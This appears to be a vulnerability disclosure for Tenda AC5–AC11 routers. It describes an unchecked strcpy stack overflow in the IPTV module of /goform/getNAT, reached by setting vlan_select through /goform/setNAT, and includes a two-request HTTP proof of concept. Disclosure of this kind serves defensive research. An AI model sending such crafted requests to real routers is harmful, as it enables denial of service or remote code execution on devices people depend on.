

# Tenda Router  Vulnerability

This vulnerability exists in  module `IPTV` of `/goform/getNAT` and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

There is a stack buffer overflow vulnerability in the `SUB_8007D1EC` function.(page  /goform/getNAT)



In this function, when `vlan_zone` is equal to 2, it uses `nvram_get((int)"vlan_select");` to gets an NVRAM variable, which is then placed in a `V20` variable.  After that ,it will use `Strcpy (v33, v20);`  to put the V20 on the V33 without any security checks.

The  `vlan_select`  NVRAM variable can be controlled in the `sub_8007D508` function.


You can see that it's assigned by v11.


Initially `v11` is what we inputed, so the `vlan_select` NVRAM variable becomes manageable.


It is also  easy to get the program to `LABEL_21` by simply setting `IPTVEn` to true.

Thus, by first setting the `vlan_select` on the page `/goform/setNAT` and then requesting the page `/goform/getNAT`, an attacker can easily perform a denial-of-service attack or remote code execution using crafted overflow data.

## POC

```
POST /goform/setNAT HTTP/1.1
Host: 192.168.0.1
Content-Length: 59
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=IPTV&IPTVEn=true&VLANArea=2&VLANID=4&VLANSelect=aaaaaaaa
```

```
GET /goform/getNAT?random=0.7312766635668926&modules=IPTV HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### Verify

Vulnerability demo


If the number of characters were longer, it would be enough to overflow.